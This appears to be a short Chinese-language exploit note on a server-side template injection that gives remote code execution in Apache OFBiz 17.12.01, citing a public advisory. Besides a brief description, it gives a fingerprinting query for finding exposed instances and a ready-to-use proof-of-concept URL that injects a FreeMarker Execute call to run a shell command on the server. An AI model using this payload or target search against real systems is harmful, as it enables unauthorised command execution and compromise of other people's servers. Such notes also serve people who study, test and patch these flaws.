 # Apache OfBiz 远程代码执行 RCE

## 漏洞描述

Apache OfBiz 17.12.01 容易受到服务器端模板注入（SSTI）的影响，从而导致远程代码执行（RCE）。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-066-apache_ofbiz

## 网络测绘

```
app="Apache_OFBiz"
```

## 漏洞复现

poc：

```
https://localhost/ordermgr/control/FindRequest?foo=bar"ajaxEnabled=false/>${"freemarker.template.utility.Execute"?new()("id")}<FOO
```
